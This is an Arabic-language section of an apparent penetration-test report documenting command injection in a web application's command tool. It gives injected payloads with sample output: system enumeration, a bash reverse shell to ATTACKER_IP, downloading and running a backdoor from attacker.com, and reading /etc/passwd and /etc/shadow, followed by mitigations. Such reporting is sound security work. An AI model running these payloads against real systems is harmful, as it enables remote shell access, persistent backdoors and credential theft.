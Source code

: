 
## القسم الثالث: اثبات استغلال ثغرات Command Injection

### 🎯 الهدف
أداة تنفيذ الأوامر في تطبيق الويب

### 🔍 وصف الثغرة
ثغرة Command Injection تسمح للمهاجم بتنفيذ أوامر نظام تشغيل غير مصرح بها على الخادم، مما يؤدي إلى وصول كامل للنظام.

### 💻 اثبات الاستغلال

#### الخطوة 1: استخراج معلومات النظام
```bash
# الحمل: ; id; whoami; uname -a
# النتيجة:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
Linux webserver 5.4.0-42-generic #46~18.04.1-Ubuntu SMP
```

#### الخطوة 2: إنشاء Reverse Shell
```bash
# الحمل: ; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
# النتيجة: 🐚 تم إنشاء اتصال عكسي مع خادم المهاجم
# تم الحصول على وصول تفاعلي للنظام
```

#### الخطوة 3: تنزيل وتركيب باك دور
```bash
# الحمل:
; wget http://attacker.com/backdoor -O /tmp/backdoor; chmod +x /tmp/backdoor; /tmp/backdoor

# النتيجة: 🦠 تم تركيب باك دور دائم في النظام
# تم إنشاء نقطة دخول دائمة للنظام
```

#### الخطوة 4: استخراج ملفات التهيئة
```bash
# الحمل: ; cat /etc/passwd; cat /etc/shadow
# النتيجة: 📋 تم استخراج ملفات المستخدمين وكلمات المرور المشفرة
# تم الحصول على معلومات الاعتماد للنظام
```

### 💥 التأثير
- ✅ وصول كامل إلى نظام التشغيل
- ✅ تنفيذ أوامر بصلاحيات خادم الويب
- ✅ تركيب باك دور دائم
- ✅ سرقة بيانات الاعتماد النظامية

### 🔧 الحلول الأمنية
1. تنفيذ التحقق الصارم من المدخلات
2. استخدام قوائم بيضاء للأوامر المسموح بها
3. عزل عمليات النظام عن تطبيق الويب
4. تقليص امتيازات خادم الويب

---